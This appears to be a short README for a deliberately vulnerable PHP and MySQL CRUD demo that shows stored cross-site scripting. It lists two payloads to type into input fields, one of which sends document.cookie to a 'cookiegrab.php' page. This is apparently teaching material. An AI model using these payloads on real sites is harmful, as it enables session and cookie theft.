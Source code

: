 # XSS Attack

## Application
Simple Create, Read, Update, Delete (CRUD) in PHP & MySQL
========
Edit config.php according to your DB!

## XSS Attack
Inject Javascript in any input fields while adding new entry.
Example input for name: `<script type="text/javascript">var myCookies = getCookies();
alert(myCookies.secret);</script>`

'<script language="javascript"> document.location= " cookiegrab.php?c=" + document.cookie; </script>'

